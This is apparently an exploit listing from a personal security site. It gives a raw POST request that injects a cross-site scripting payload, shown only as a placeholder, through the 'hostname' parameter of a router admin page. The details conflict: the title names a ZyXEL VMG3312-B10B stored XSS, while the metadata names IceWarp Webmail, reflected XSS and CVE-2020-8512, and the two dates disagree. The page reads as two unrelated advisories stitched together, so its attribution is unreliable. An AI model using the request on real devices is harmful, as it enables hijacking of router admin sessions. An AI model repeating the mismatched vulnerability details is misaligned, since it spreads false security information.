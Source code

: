```yaml
---
title: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
collection: exploits
excerpt: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11-4-4-1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2019  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ 
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**POST REQUEST :**

POST /pages/connectionStatus/connectionStatus-hostEntry.cmd HTTP/1.1  
Host: 192.168.1.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.1/index.html  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 79  
Cookie: SESSION=529313605  
Connection: close  
Upgrade-Insecure-Requests: 1  
action=edit&oldip=192.168.1.36&hosttype=&sessionKey=1997367832&**hostname**=**XSS PAYLOAD**  

**Vulnerable Page :**
/pages/connectionStatus/connectionStatus-hostEntry.cmd  
**Vulnerable Parameter :**
hostname


Exploit DB : <a href="https://www.exploit-db.com/exploits/45236">45236</a>
